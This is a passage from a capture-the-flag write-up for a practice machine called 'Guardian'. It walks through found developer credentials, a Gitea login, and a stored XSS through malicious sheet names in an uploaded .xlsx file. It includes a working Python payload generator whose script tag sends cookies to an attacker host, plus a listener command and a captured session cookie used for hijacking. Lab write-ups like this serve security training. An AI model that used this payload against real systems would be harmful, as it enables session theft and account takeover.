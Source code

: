 And from this gossip session, we snag creds for a dev:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756878873177/5672509f-ea88-44ba-ae9b-c07b128560f2.png align="center")

```plaintext
Username: jamil.enockson@guardian.htb
Password: DHsNnk3V503
```

Time to crash the staff room.

---

## 🎬 Act 3 – The Code Vault (Gitea)

At `http://gitea.guardian.htb`, we log in with Jamil’s creds.  
Inside: **portal configs** (DB creds!) and code using **PhpSpreadsheet**.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756878906147/5724e7de-2780-4c3d-a765-a8c8261ed3f2.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756878927584/9da1282d-47f9-433a-89d1-b2ca04c9df5a.png align="center")

The devs basically left the **answer sheet** lying around. 🎯

---

## 🎬 Act 4 – The Spreadsheet of Doom (XSS → Lecturer)

In the **assignment submission** module, PhpSpreadsheet fails to sanitize sheet names.  
Meaning → we can upload an `.xlsx` with **JavaScript in the sheet title**.

Evil homework time:

```python
from openpyxl import Workbook
wb = Workbook()
ws1 = wb.active
ws1.title = 'Sheet1'
wb.create_sheet(title='<script>new Image().src="http://YOUR_IP/?c="+document.cookie</script>')
wb.save('exploit.xlsx')
```

Host a listener:

```bash
sudo python3 -m http.server 80
```

Upload the evil file → lecturer opens it → cookie stolen:

```plaintext
GET /?c=PHPSESSID=0o291cbml9r3m23nu8lp3iso5t
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756878972700/8396f7b7-da08-4b40-a25d-39ab3244d832.png align="center")

Swap cookie in browser → 🎉 We’re a **Lecturer** now.

---